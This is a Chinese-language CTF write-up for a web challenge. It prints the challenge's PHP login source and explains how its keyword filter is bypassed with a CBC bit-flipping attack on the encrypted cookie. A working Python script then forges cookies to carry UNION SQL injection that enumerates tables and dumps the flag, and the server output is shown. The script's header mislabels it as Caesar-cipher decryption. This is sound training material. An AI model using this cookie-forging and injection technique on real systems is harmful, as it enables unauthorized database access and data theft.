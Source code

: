 ## 简单的登录题

题目链接 http://www.shiyanbar.com/ctf/2037

此题目虽然放在第一个，分数也不高，但是还是比较复杂的。

![](images/2021-06-03-23-31-14.png)

抓包发现一个`提示`

![](images/2021-06-03-23-31-28.png)

查看`test.php`，发现是`index.php`的源码。

```php
<?php
define("SECRET_KEY", '***********');
define("METHOD", "aes-128-cbc");
error_reporting(0);
include('conn.php');
function sqliCheck($str){
	if(preg_match("/\\\|,|-|#|=|~|union|like|procedure/i",$str)){
		return 1;
	}
	return 0;
}
function get_random_iv(){
    $random_iv='';
    for($i=0;$i<16;$i++){
        $random_iv.=chr(rand(1,255));
    }
    return $random_iv;
}
function login($info){
	$iv = get_random_iv();
	$plain = serialize($info);
    $cipher = openssl_encrypt($plain, METHOD, SECRET_KEY, OPENSSL_RAW_DATA, $iv);
    setcookie("iv", base64_encode($iv));
    setcookie("cipher", base64_encode($cipher));
}
function show_homepage(){
	global $link;
    if(isset($_COOKIE['cipher']) && isset($_COOKIE['iv'])){
        $cipher = base64_decode($_COOKIE['cipher']);
        $iv = base64_decode($_COOKIE["iv"]);
        if($plain = openssl_decrypt($cipher, METHOD, SECRET_KEY, OPENSSL_RAW_DATA, $iv)){
            $info = unserialize($plain) or die("<p>base64_decode('".base64_encode($plain)."') can't unserialize</p>");
            $sql="select * from users limit ".$info['id'].",0";
            $result=mysqli_query($link,$sql);
            
            if(mysqli_num_rows($result)>0  or die(mysqli_error($link))){
            	$rows=mysqli_fetch_array($result);
				echo '<h1><center>Hello!'.$rows['username'].'</center></h1>';
			}
			else{
				echo '<h1><center>Hello!</center></h1>';
			}
        }else{
            die("ERROR!");
        }
    }
}
if(isset($_POST['id'])){
    $id = (string)$_POST['id'];
    if(sqliCheck($id))
		die("<h1 style='color:red'><center>sql inject detected!</center></h1>");
    $info = array('id'=>$id);
    login($info);
    echo '<h1><center>Hello!</center></h1>';
}else{
    if(isset($_COOKIE["iv"])&&isset($_COOKIE['cipher'])){
        show_homepage();
    }else{
        echo '<body class="login-body" style="margin:0 auto">
                <div id="wrapper" style="margin:0 auto;width:800px;">
                    <form name="login-form" class="login-form" action="" method="post">
                        <div class="header">
                        <h1>Login Form</h1>
                        <span>input id to login</span>
                        </div>
                        <div class="content">
                        <input name="id" type="text" class="input id" value="id" onfocus="this.value=\'\'" />
                        </div>
                        <div class="footer">
                        <p><input type="submit" name="submit" value="Login" class="button" /></p>
                        </div>
                    </form>
                </div>
            </body>';
    }
}
?>
```

代码实现的流程:
1. 提交上来的id，先进行关键字的过滤，防止SQL注入，包括=、-、#、union、like、procedure等等，如果检测到这些敏感字符，则会直接die并返回显示Sql inject detected。
2. 通过过滤的id，服务器会返回两个值：iv与cipher。iv：随机生成的16位值，再经过base64转码。cipher：id序列化、预设的SECRET_KEY（打码）、上面得到的iv值，三者经过aes-128-cbc加密得到cipher值。服务器把iv、cipher设置到cookie然后返回，顺便还显示了一个Hello！
3. 如果Post给服务器的报文，没有包括id，而且cookie里有iv和cipher值，则进入函数show_homepage()；
4. show_homepage()大致过程：将iv、cipher经过base64解码，然后把预设的SECRET_KEY（打码）、iv、cipher经过aes-128-cbc解密，得到plain
5. 如果plain无法反序列化，则die并返回plain的base64编码数据；如果可以序列化，则将id值拼接到sql语句中“select * from users limit .$info['id']  ,0”，并提交到数据库，返回数据，并附在返回的Hello后。

根据程序流程分析，我们的目标是实现sql注入，拿到数据库的内容应该就可以获取到Flag了。目前的sql语句为

```sql
$sql="select * from users limit ".$info['id'].",0";
```

根据sql语句，可以开看到，这条语句永远都返回的0条记录，除非能够进行注入，将后面的`,0`注释掉，才能够获取到数据，如使用语句`1,100#`。

由于过滤了`#、--`，所以尝试用`%00`，用Burp Repeater尝试，将`id=1 %00`，post提交，然后用返回的iv、cipher值，作为第二次的cookie，然后去掉`id=`（这样做的原因是因为源代码如果id参数不存在，则获取到cookie里的各种值作为查询的参数，而cookie内的值为上一次的查询值），再次post，结果能返回`Hello!rootzz`。

如下图

![](images/2021-06-03-23-31-58.png)

将cookie按照服务器设置要求进行设置

![](images/2021-06-03-23-32-09.png)


没有按到flag，推测要获取整个库第一次提交id时，做了过滤，但是第二次提交iv和cipher值，是不会做过滤的，使用cbc翻转一个字节进行攻击（发送一个可以绕过字符过滤的id值，然后通过cbc翻转攻击将一部分需要改变的字符修改为我们想要的，达到sql注入目的）。

1. 提交能经过过滤检测的SQL语句，如id=12
2. 结合得到的iv、cipher，用cbc字节翻转cipher对应id=12中2的字节，得到cipher_new，提交iv、cipher_new
3. 第二次提交得到plain（如果忘了是啥可以往回看）
4. 把iv、plain、‘id=12’序列第一行（16个字节为一行），进行异或操作，得到iv_new
5. 把iv_new、cipher_new，去掉id=xx  post到服务器即可得到  id=1# 的结果，即Hello!rootzz

使用脚本

```python
#!/usr/bin/env python
#-*- coding: utf-8 -*-
"""
@Author : darkN0te
@Create date : 2018-07-07
@description : 凯撒轮转密码解密
@Update date :   
"""  
from base64 import *
import urllib
import requests
import re

def denglu(payload,idx,c1,c2):
    url=r'http://ctf5.shiyanbar.com/web/jiandan/index.php'
    payload = {'id': payload}
    r = requests.post(url, data=payload)
    Set_Cookie=r.headers['Set-Cookie']
    iv=re.findall(r"iv=(.*?),", Set_Cookie)[0]
    cipher=re.findall(r"cipher=(.*)", Set_Cookie)[0]
    iv_raw = b64decode(urllib.unquote(iv))
    cipher_raw=b64decode(urllib.unquote(cipher))
    lst=list(cipher_raw)
    lst[idx]=chr(ord(lst[idx])^ord(c1)^ord(c2))
    cipher_new=''.join(lst)
    cipher_new=urllib.quote(b64encode(cipher_new))
    cookie_new={'iv': iv,'cipher':cipher_new}
    r = requests.post(url, cookies=cookie_new)
    cont=r.content
    plain = re.findall(r"base64_decode\('(.*?)'\)", cont)[0]
    plain = b64decode(plain)
    first='a:1:{s:2:"id";s:'
    iv_new=''
    for i in range(16):
        iv_new += chr(ord(first[i])^ord(plain[i])^ord(iv_raw[i]))
    iv_new = urllib.quote(b64encode(iv_new))
    cookie_new = {'iv': iv_new, 'cipher': cipher_new}
    r = requests.post(url, cookies=cookie_new)
    rcont = r.content
    print rcont

denglu('12',4,'2','#')
denglu('0 2nion select * from((select 1)a join (select 2)b join (select 3)c);'+chr(0),6,'2','u')
denglu('0 2nion select * from((select 1)a join (select group_concat(table_name) from information_schema.tables where table_schema regexp database())b join (select 3)c);'+chr(0),7,'2','u')
denglu("0 2nion select * from((select 1)a join (select group_concat(column_name) from information_schema.columns where table_name regexp 'you_want')b join (select 3)c);"+chr(0),7,'2','u')
denglu("0 2nion select * from((select 1)a join (select * from you_want)b join (select 3)c);"+chr(0),6,'2','u')
```

得到结果
```
<h1><center>Hello!rootzz</center></h1>
<h1><center>Hello!2</center></h1>
<h1><center>Hello!users,you_want</center></h1>
<h1><center>Hello!value</center></h1>
<h1><center>Hello!flag{c42b2b758a5a36228156d9d671c37f19}</center></h1>
```

参考链接 https://www.jianshu.com/p/4c1e5d24d781 。
https://blog.csdn.net/csu_vc/article/details/79619309 。
https://blog.csdn.net/jeffreynnn/article/details/77100389 。